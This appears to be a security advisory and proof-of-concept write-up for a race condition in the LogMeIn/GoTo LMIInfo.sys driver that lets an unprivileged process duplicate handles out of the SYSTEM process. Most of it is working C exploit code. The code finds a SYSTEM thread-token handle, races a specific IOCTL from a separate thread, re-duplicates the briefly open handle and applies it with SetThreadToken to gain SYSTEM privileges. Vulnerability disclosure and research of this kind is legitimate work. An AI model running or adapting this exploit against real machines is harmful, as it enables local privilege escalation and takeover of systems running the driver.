


# LogMeIn / GoTo LMIInfo.sys Handle Duplication

### Summary

A race condition exists in the LMIInfo.sys driver provided by LogMeIn / GoTo RMM wherein an arbitrary handle can be duplicated from the SYSTEM process.
The core issue stems from the lack of proper access control on the device object alongside the obviously poor decision to duplicate user-specified handles from the system process.

### Details

IOCTL: `0x9211001C`

Input buffer:
```C
// LMI-Common.cpp
typedef struct LMI_INFO {
	DWORD64 qwPid;
	DWORD64 reserved0;
	DWORD64 handleValue;
	DWORD64 reserved1;
} LMI_INFO, * PLMI_INFO;
```

Dispatch:



Susceptible Function:



When gathering handle information and performing string processing, in between calls to ZwDuplicateObject/ZwClose, the calling process may duplicate the duplicated handle. If performed correctly, the secondary duplicated handle will persist after the primary duplicated handle has been closed.

In order to trigger the bug reliably, all handles used by the process MUST be created before triggering the race condition. The target handle is queried from the system process using the following function (thread token used as example):

```C
// LMI-Common.cpp
HANDLE FindSystemPidFirstToken()
{
	HANDLE hHeap = GetProcessHeap();
	LPVOID lpBuf = HeapAlloc(hHeap, HEAP_ZERO_MEMORY, 0x20000);
	if (!lpBuf) {
		printf("HeapAlloc - %d\n", GetLastError());
		return INVALID_HANDLE_VALUE;
	}
	ULONG ulBytesReturned = 0;
	NTSTATUS status = NtQuerySystemInformation((SYSTEM_INFORMATION_CLASS)SystemHandleInformation, lpBuf, 0x20000, &ulBytesReturned);

	while (status == 0xC0000004) {
		HeapFree(hHeap, 0, lpBuf);
		lpBuf = HeapAlloc(hHeap, HEAP_ZERO_MEMORY, ulBytesReturned + 0x1000);
		if (!lpBuf) {
			printf("HeapAlloc - %d\n", GetLastError());
			return INVALID_HANDLE_VALUE;
		}
		status = NtQuerySystemInformation((SYSTEM_INFORMATION_CLASS)SystemHandleInformation, lpBuf, ulBytesReturned + 0x1000, &ulBytesReturned);
	}


	if (status) {
		printf("Query for handles failed - %lx\n", status);
		return INVALID_HANDLE_VALUE;
	}

	PSYSTEM_HANDLE_INFORMATION pSysHandleInfo = (PSYSTEM_HANDLE_INFORMATION)lpBuf;

	for (unsigned int i = 0; i < pSysHandleInfo->NumberOfHandles; i++) {
		SYSTEM_HANDLE_TABLE_ENTRY_INFO shtei = pSysHandleInfo->Handles[i];
		if (shtei.UniqueProcessId != 4) {
			continue;
		}
		printf("HANDLE:\n\t Handle Value 0x%x - Type 0x%x - Access 0x%x\n", shtei.HandleValue, shtei.ObjectTypeIndex, shtei.GrantedAccess);
		if (shtei.ObjectTypeIndex == OBJECT_TYPE_THREAD_TOKEN && shtei.GrantedAccess == THREAD_TOKEN_IMPERSONATE_PRIVILEGES) {
			printf("Found handle to token:\n\t Handle Value 0x%x - Type 0x%x - Access 0x%x\n", shtei.HandleValue, shtei.ObjectTypeIndex, shtei.GrantedAccess);
			return (HANDLE)shtei.HandleValue;
		}
	}

	return INVALID_HANDLE_VALUE;
}
```

As `HANDLE` values increase in increments of 4, we calculate the value of the primary duplicated handle by getting a count of `HANDLE`s and adding 4. As such we open the device, and create the "racing" thread in a suspended state before calculating the next handle value. This could probably be performed in a more stable and "refined" fashion, which is left as an exercise to the reader who is likely more proficient lmao.

```C
// LMI-Common.cpp
HANDLE FindNextCreatedHandle() {
	HANDLE highestHandle = 0;
	UINT32 u32NumHandles = 0;
	ULONG ulSizeReturned = 0;
	NTSTATUS status = 0;
	status = NtQueryInformationProcess((HANDLE)-1, (PROCESSINFOCLASS)ProcessHandleCount, &u32NumHandles, sizeof(UINT32), &ulSizeReturned);
	if (!NT_SUCCESS(status)) {
		return (HANDLE)-1;
	}

	return (HANDLE)((UINT64)++u32NumHandles * 4);
}
```

Once complete, the racing thread is resumed and repeated IOCTLs are issued:

```C
// LMI-Common.cpp
NTSTATUS DupeThread(LPVOID lpParam) {
	puts("Entered DupeThread");
	if (!lpParam || lpParam == INVALID_HANDLE_VALUE) {
		printf("Invalid device handle passed to thread : %lx\n", GetLastError());
		return -1;
	}

	PDUPE_THREAD_INFO Dti = (PDUPE_THREAD_INFO)lpParam;

	DWORD dwBytesReturned = 0;
	LMI_INFO lmii = { 0 };
	lmii.qwPid = 4;
	lmii.handleValue = (UINT64)FindSystemPidFirstToken(); // yes, I know

	if ((HANDLE)lmii.handleValue == INVALID_HANDLE_VALUE) {
		puts("Couldn't find a token handle in the system process??");
	}

	BOOL bRes = FALSE;
	LPVOID lpOutBuf = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, 0x1000);

	if (!lpOutBuf) {
		printf("HeapAlloc : %lx\n", GetLastError());
		return -1;
	}

	while (Dti->Run) {
		// call DeviceIoControl to start the race
		bRes = DeviceIoControl(
			Dti->hDevice,
			IOCTL_DUPE_LEL,
			&lmii,
			sizeof(LMI_INFO),
			lpOutBuf,
			0x1000,
			&dwBytesReturned,
			NULL
		);
	}	
}
```

The design consideration of the racing thread is due to the following:
* I am bad at exploiting race conditions

The main thread repeatedly calls `DuplicateHandle` to duplicate the primary duplicated handle until the duplication is successful, and the global boolean is set to false to quit the racing thread (yes, yes I know).

```C
// Source.cpp
HANDLE hTarget = FindNextCreatedHandle();
hTarget = (HANDLE)((UINT64)hTarget + 4);

puts("Resuming dupe thread");
dwSuspendCount = ResumeThread(hDupeThread);
if (dwSuspendCount == -1) {
    printf("Error resuming dupe thread - %lx\n", GetLastError());
    return -1;
}

while (!bRes) {
    bRes = DuplicateHandle(g_hCurrentProc, hTarget, g_hCurrentProc, &hToken, NULL, FALSE, DUPLICATE_SAME_ACCESS);
}

dti.Run = FALSE;

if (bRes) {
    puts("ebin");
    printf("%llx - target\n", hTarget);
    printf("%llx - dup\n", hToken);
    bRes = SetThreadToken(NULL, hToken);
    if (!bRes) {
        printf("Failed to SetThreadToken - %x\nExploitation failed!", GetLastError());
    }
    else {
        puts("Set the thread token!");
    }
}
else {
    printf("Failed to dupe token: %lx\n", GetLastError());
    return -1;
}

getchar();
return 0;
```


